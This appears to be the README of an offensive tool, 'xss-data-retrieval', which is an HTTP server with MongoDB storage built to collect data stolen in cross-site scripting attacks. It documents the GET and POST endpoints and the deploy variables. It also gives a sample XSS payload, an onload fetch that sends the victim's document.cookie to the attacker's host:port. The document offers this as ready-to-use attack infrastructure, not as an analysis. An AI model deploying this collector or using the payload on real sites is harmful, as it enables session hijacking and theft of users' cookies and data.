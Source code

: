 # xss-data-retrieval

Ready to go HTTP Server with MongoDB communication for storing the data obtained in your XSS attacks.

## Usage

`GET /?data=<data>`

If the data retrieved is the size of the Internet consider the following request

`POST / {'application-type': 'text/plain'}`

## Sample XSS Attack

``<body id=x tabindex=1 onload=fetch(`host:port/?data=${document.cookie}`)></body>``

### Deploy

Define the following environment variables:

|Variable|Description|
|--------|-----------|
|PORT|Port which the server will be listening requests|
|MONGODB_CONNECTION_URL|Connection URL of the Mongo database that will store the data|